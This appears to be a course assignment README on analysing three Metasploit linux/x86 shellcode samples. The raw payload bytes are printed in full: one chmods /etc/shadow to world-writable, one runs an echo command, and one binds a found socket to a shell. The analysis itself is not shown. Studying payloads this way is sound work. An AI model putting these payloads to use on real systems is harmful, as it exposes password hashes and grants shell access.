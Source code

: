 Assignment #5, Shellcode Analysis
=================================

Instructions:
-------------
* Take up at least 3 shellcode samples created using msfpayload for linux/x86
* Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
* Present your analysis (http://www.paolostivanin.com/blog/)

Shellcode 1:
------------
```
/*
 * linux/x86/chmod - 36 bytes
 * http://www.metasploit.com
 * FILE=/etc/shadow, MODE=0666
 */
unsigned char buf[] = 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
"\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
"\x80\x6a\x01\x58\xcd\x80";
```

Shellcode 2:
------------
```
/*
 * linux/x86/exec - 47 bytes
 * http://www.metasploit.com
 * CMD=echo SLAE32
 */
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0c\x00\x00\x00\x65"
"\x63\x68\x6f\x20\x53\x4c\x41\x45\x33\x32\x00\x57\x53\x89\xe1"
"\xcd\x80";
```

Shellcode 3:
------------
```
/*
 * linux/x86/shell_find_port - 62 bytes
 * http://www.metasploit.com
 */
unsigned char buf[] = 
"\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff"
"\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x8e\xf9\x75\xf1\x5b"
"\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73"
"\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b"
"\xcd\x80";
```
